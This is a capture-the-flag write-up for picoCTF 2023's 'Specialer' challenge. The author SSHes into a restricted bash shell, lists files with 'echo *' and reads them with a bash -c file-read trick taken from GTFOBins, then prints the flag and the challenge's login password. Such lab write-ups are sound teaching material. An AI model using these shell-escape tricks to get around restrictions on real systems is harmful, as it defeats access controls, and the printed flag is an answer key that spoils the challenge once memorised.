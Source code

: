 # Specialer

## Overview

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Author: LT 'syreal' Jones, et al.

Description

Reception of Special has been cool to say the least. That's why we made an exclusive version of Special, called Secure Comprehensive Interface for Affecting Linux Empirically Rad, or just 'Specialer'. With Specialer, we really tried to remove the distractions from using a shell. Yes, we took out spell checker because of everybody's complaining. But we think you will be excited about our new, reduced feature set for keeping you focused on what needs it the most. Please start an instance to test your very own copy of Specialer.

`ssh -p 63130 ctf-player@saturn.picoctf.net`. The password is `483e80d4`

## Find the flag

**In this challenge, we can SSH into the instance machine:**
```shell
┌[siunam♥earth]-(~/ctf/picoCTF-2023)-[2023.03.17|16:59:59(HKT)]
└> ssh -p 63130 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:63130 ([13.59.203.175]:63130)' can't be established.
ED25519 key fingerprint is SHA256:lMXKIC17ONzyUJx7ZYBY5VSwoxCz20uq5/Nm+IhXKew.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:63130' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Specialer$ 
```

```shell
Specialer$ whoami
-bash: whoami: command not found
Specialer$ id
-bash: id: command not found
Specialer$ pwd
/home/ctf-player
```

As you can see, looks like we're inside a **restricted Bash shell**, and we can only run some commands.

**According to [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/escaping-from-limited-bash#modify-path), we can use `echo` to list directories:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230317173400.png)

**Let's do that!**
```shell
Specialer$ echo *
abra ala sim
```

Oh! We found 3 directories: `abra`, `ala`, `sim`.

**`abra/`:**
```shell
Specialer$ echo abra/*
abra/cadabra.txt abra/cadaniel.txt
```

**`ala/`:**
```shell
Specialer$ echo ala/* 
ala/kazam.txt ala/mode.txt
```

**`sim/`:**
```shell
Specialer$ echo sim/*
sim/city.txt sim/salabim.txt
```

But how do we ***read*** those files??

**After fumbling around, I found that we can press the `Tab` key to list out all commands:**
```shell
Specialer$ 
!          break      coproc     esac       function   local      return     times      wait
./         builtin    declare    eval       getopts    logout     select     trap       while
:          caller     dirs       exec       hash       mapfile    set        true       {
[          case       disown     exit       help       popd       shift      type       }
[[         cd         do         export     history    printf     shopt      typeset    
]]         command    done       false      if         pushd      source     ulimit     
alias      compgen    echo       fc         in         pwd        suspend    umask      
bash       complete   elif       fg         jobs       read       test       unalias    
bg         compopt    else       fi         kill       readarray  then       unset      
bind       continue   enable     for        let        readonly   time       until
```

Hmm... The `bash` command looks sussy.

Then, according to [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#file-read), **we can use `bash` to read files!!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/picoCTF-2023/images/Pasted%20image%2020230317173651.png)

**Let's read those files!**
```shell
Specialer$ bash -c 'echo "$(<abra/cadabra.txt)"'
Nothing up my sleeve!
Specialer$ bash -c 'echo "$(<abra/cadaniel.txt)"'
Yes, I did it! I really did it! I'm a true wizard!
```

Nice! However, nothing interesting in `abra/`.

**How about `ala/`?**
```shell
Specialer$ bash -c 'echo "$(<ala/kazam.txt)"'
return 0 picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_d5ef8b71}
```

Bam! We found the flag!

- **Flag: `picoCTF{y0u_d0n7_4ppr3c1473_wh47_w3r3_d01ng_h3r3_d5ef8b71}`**

## Conclusion

What we've learned:

1. RBash Escape